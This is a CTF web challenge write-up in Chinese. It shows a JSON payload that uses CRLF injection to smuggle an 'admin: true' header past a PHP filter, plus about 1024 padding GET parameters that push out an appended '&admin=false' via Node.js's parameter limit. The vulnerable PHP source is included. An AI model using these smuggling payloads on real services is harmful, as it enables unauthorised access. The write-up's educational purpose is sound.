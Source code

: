 tags:: [[CTFWEB/NodeJS]], [[CTFWEB/SSRF]]

- # 分析
	- 一眼ssrf攻击后端的NodeJS，需要伪造header和GET param
- # 伪造Header
	- 快使用CRLF!
	- ```json
	  "headers":["Aaa: Bbb\r\nadmin: true"]
	  ```
-
- # 伪造GET param
	- 题目会在传入的GET参数后面拼接`&admin=false`
	- 我们需要传入大量GET param，利用NodeJS中GET param的数量限制挤掉后面的`&admin=false`
- # 最终payload
	- id:: 6547a3b5-68ac-4744-bb9f-bb446e42fabd
	  ```json
	  {
	    "headers":["Aaa: Bbb\r\nadmin: true"],
	    "params":{
	      "admin":"true",
	      "x0":0,
	      "x1":1,
	      "x2":2,
	      "x3":3,
	      "x4":4,
	      "x5":5,
	      "x6":6,
	      "x7":7,
	      "x8":8,
	      "x9":9,
	      "x10":10,
	      "x11":11,
	      "x12":12,
	      "x13":13,
	      "x14":14,
	      "x15":15,
	      //... 略
	  	"x1023":1023,
	    }
	  }
	  ```
- # 题目
	- ```php
	  <?php
	  error_reporting(E_ALL);
	  $url = 'http://127.0.0.1:3000/flag?';
	  $input = file_get_contents('php://input');
	  if(!$input) {
	      highlight_file(__FILE__);
	      die();
	  }
	  $headers = (array)json_decode($input)->headers;
	  for($i = 0; $i < count($headers); $i++){
	      $offset = stripos($headers[$i], ':');
	      $key = substr($headers[$i], 0, $offset);
	      $value = substr($headers[$i], $offset + 1);
	      if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){
	          die('try hard');
	      }
	  }
	  $params = (array)json_decode($input)->params;
	  $url .= http_build_query($params);
	  $url .= '&admin=false';
	  var_dump($url);
	  var_dump($headers);
	  $ch = curl_init();
	  curl_setopt($ch, CURLOPT_URL, $url);
	  curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
	  curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
	  curl_setopt($ch, CURLOPT_NOBODY, FALSE);
	  $result = curl_exec($ch);
	  curl_close($ch);
	  echo $result;
	  var_dump($result);
	  
	  ```